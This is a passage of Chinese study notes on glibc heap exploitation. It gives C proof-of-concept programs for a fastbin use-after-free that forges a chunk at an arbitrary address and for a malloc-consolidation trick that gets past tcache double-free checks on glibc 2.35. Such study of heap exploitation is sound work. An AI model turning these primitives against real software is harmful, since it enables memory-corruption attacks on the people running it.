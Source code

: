 效果:
1. 构造出一个可以任意写的chunk

## fast bin consolidate

1. 直接利用，uaf越界写fd，然后伪造size分配到目标地址
glibc>2.26需要注意tcache问题。
```c 
#include<stdlib.h>
#include<stdio.h>
int main(){
    //target data
    size_t data[5]={0x21,0,0,0,1};
    char *a=malloc(0x10);
    free(a);
    //attack by uaf
    *(size_t*)a=(size_t)&data-0x8;
    malloc(0x1000);
    size_t *b=malloc(0x10);
    *b=0x61;
    printf("%lx\n",data[1]);
}
```
2. malloc比较大的chunk时触发了堆合并，结果fastbin中的chunk被整理到了small bin中。最后free制造了环。
glibc:2.35
```c
#include <assert.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
  puts("This is a powerful technique that bypasses the double free check in "
       "tcachebin.");
  // ----------------------------------------------------------------
  printf("Fill up the tcache list to force the fastbin usage...\n");
  void *ptr[7];
  for (int i = 0; i < 7; i++)
    ptr[i] = malloc(0x40);
  for (int i = 0; i < 7; i++)
    free(ptr[i]);
  // ----------------------------------------------------------------

  void *p1 = calloc(1, 0x40);
  void *p2 = calloc(1, 0x40);

  // attack
  free(p1);
  void *p3 = malloc(0x400);
  printf("Triggering the double free vulnerability!\n\n");
  free(p1);
  // ---------------------------------------------------------------
  // clean tcachebin
  for (int i = 0; i < 7; i++)
    ptr[i] = malloc(0x40);
//----------------------------------------------------------------------
  void *p4 = malloc(0x40);
  void *p5 = malloc(0x40);

  assert(p5 == p4);

  printf("point to p5: p5=%p, p4=%p\n\n", p5, p4);
}
```
